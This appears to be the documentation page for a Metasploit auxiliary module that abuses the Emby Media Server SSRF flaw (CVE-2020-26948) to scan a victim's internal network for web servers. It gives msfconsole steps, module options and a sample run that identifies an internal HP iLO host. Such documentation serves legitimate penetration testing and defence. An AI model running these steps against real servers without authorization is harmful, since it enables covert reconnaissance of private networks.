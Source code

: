 ## Vulnerable Application
This module has been tested on Emby Media Server versions older than 4.5.

### Description

Generates a GET request to the provided web servers and executes an SSRF against the targeted EMBY server.
Returns the server header, HTML title, and location header. This is useful for rapidly identifying  web applications
on the internal network using the Emby SSRF vulnerability (CVE-2020-26948).

## Verification Steps

  1. Do: `use auxiliary/scanner/http/emby_ssrf_scanner`
  2. Do: `set rhosts [ips]`
  3. Do: `set emby_server [emby_server_ip]`
  4. Do: `run`

## Options

### PORTS

Select which ports to check for HTTP servers internal to the Emby server. Defaults to `80,8080,8081,8888`.

### EMBY_SERVER

IP address of the Emby server to use. Required.

### EMBY_PORT

Emby server access port. Defaults to 8096.
### SHOW_TITLES

If set to `false`, will not show the titles on the console as they are grabbed. Defaults to `true`.
### STORE_NOTES

If set to `false`, will not store the captured information in notes. Use `notes -t http.title` to view. Defaults to `true`.

## Scenarios

### Emby Server (v4.4.3 on Ubuntu) - Scan Internal 192.168.1.0 Network

```
msf6 > use auxiliary/scanner/http/emby_ssrf_scanner
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > set emby_server 10.10.200.32
emby_server => 10.10.200.32
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > set rhosts 10.10.10.43
rhosts => 10.10.10.43
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > run

[+] 10.10.10.43:80 [C:200] [R:] [S:UPnP/1.0 DLNADOC/1.50] HP Integrated Lights-Out 2
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
